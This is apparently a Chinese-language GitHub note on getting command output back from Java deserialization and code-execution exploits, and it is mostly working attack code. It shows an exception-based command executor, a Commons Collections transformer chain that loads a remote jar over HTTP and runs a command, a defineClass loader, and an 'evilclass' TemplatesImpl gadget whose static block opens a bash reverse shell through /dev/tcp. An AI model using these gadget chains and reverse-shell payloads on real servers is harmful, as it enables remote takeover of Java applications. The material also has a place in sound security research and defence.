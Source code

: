 # java回显

>一般web服务是想办法获得response对象，可以参考[2021RCTF ezshell](https://github.com/Firebasky/ctf-Challenge/tree/main/RCTF-2021-EZshell)


### URLClassLoader抛出异常

```java
package exploit.firebasky;

import java.io.BufferedInputStream;
import java.io.ByteArrayOutputStream;
import java.io.IOException;
import java.io.InputStream;

public class ErrorBaseExec
{
    public ErrorBaseExec(String cmd) throws Exception{
        do_exec(cmd);
    }

    public static byte[] readBytes(InputStream in)
            throws IOException
    {
        BufferedInputStream bufin = new BufferedInputStream(in);
        int buffSize = 1024;
        ByteArrayOutputStream out = new ByteArrayOutputStream(buffSize);
        byte[] temp = new byte[buffSize];
        int size = 0;
        while ((size = bufin.read(temp)) != -1) {
            out.write(temp, 0, size);
        }
        bufin.close();

        byte[] content = out.toByteArray();

        return content;
    }

    public static void do_exec(String cmd)
            throws Exception
    {
        Process p = Runtime.getRuntime().exec(cmd);
        byte[] stderr = readBytes(p.getErrorStream());
        byte[] stdout = readBytes(p.getInputStream());
        int exitValue = p.waitFor();
        if (exitValue == 0) {
            throw new Exception("-----------------\r\n" + new String(stdout) + "-----------------\r\n");
        }
        throw new Exception("-----------------\r\n" + new String(stderr) + "-----------------\r\n");
    }

    public static void main(String[] args)
            throws Exception
    {
        do_exec(args[0]);
    }
}
```
编译成jar之后可以封装到cc利用链组件中
```java
public static Transformer[] EchoCC() throws Exception  {
        Transformer[] transformers = new Transformer[]{
            new ConstantTransformer(URLClassLoader.class),
            new InvokerTransformer("getConstructor",
                new Class[]{Class[].class},
                new Object[]{new Class[]{URL[].class}}),
            new InvokerTransformer("newInstance",
                new Class[]{Object[].class},
                new Object[]{new Object[]{new URL[]{new URL("http://127.0.0.1:8099/ErrorBaseExec.jar")}}}),
            new InvokerTransformer("loadClass",
                new Class[]{String.class},
                new Object[]{"exploit.firebasky.ErrorBaseExec"}),
            new InvokerTransformer("getConstructor",
                new Class[]{Class[].class},
                new Object[]{new Class[]{String.class}}),
            new InvokerTransformer("newInstance",
                new Class[]{Object[].class},
                new Object[]{new String[]{"ipconfig"}})
        };
        return transformers;
    }
```
### defineClass
其实就是通过ClassLoader去执行(反射)我们自定义类的字节码。

```java
public static String FiletoBytes(String filename) throws Exception{
        String buf = null;
        File file = new File(filename);
        FileInputStream fis = null;
        try {
            fis = new FileInputStream(file);
            int size = fis.available();
            byte[] bytes = new byte[size];
            fis.read(bytes);
            buf = Arrays.toString(bytes);
            fis.close();
            return buf;
        } catch (FileNotFoundException e) {
            e.printStackTrace();
        } catch (IOException e) {
            e.printStackTrace();
        }
        return buf;
    }
    
@Override
    protected Class<?> findClass(String name) throws ClassNotFoundException {
        if (name == myClassName) {
            System.out.println("加载" + name + "类");
            return defineClass(myClassName, bs, 0, bs.length);
        }
        return super.findClass(name);
    }    
```

### 中间件回显
由于没有是研究tomcat等容器的回显。能力有限。


>中间件而言多数重写了thread类，在thread中保存了req和resp，可以通过获取当前线程，在resp中写入回显结果



参考：https://l3yx.github.io/2020/03/31/Java-Web%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E%E5%9B%9E%E6%98%BE%E6%80%BB%E7%BB%93/

直接用项目的代码。

在利用tempimpl创建类的时候可以使用如下代码
```java
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;
import java.io.IOException;

public class evilclass extends AbstractTranslet  {
    static {
        try{
            Runtime.getRuntime().exec(new String[]{"/bin/bash","-c","exec 5<>/dev/tcp/ip/port;cat <&5 | while read line; do $line 2>&5 >&5; done"});
        }catch (IOException e){
            try{
                Runtime.getRuntime().exec(new String[]{"cmd", "/c", "calc"});
            }catch (IOException ee){
            }
        }
    }
    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

    }
}
```


>参考：
>[Java 反序列化回显的多种姿势](https://www.joyk.com/dig/detail/1624894461629758)
>
>[Java Web代码执行漏洞回显总结](https://l3yx.github.io/2020/03/31/Java-Web%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E%E5%9B%9E%E6%98%BE%E6%80%BB%E7%BB%93/)
>[通杀漏洞利用回显方法-linux平台](https://www.00theway.org/2020/01/17/java-god-s-eye/)


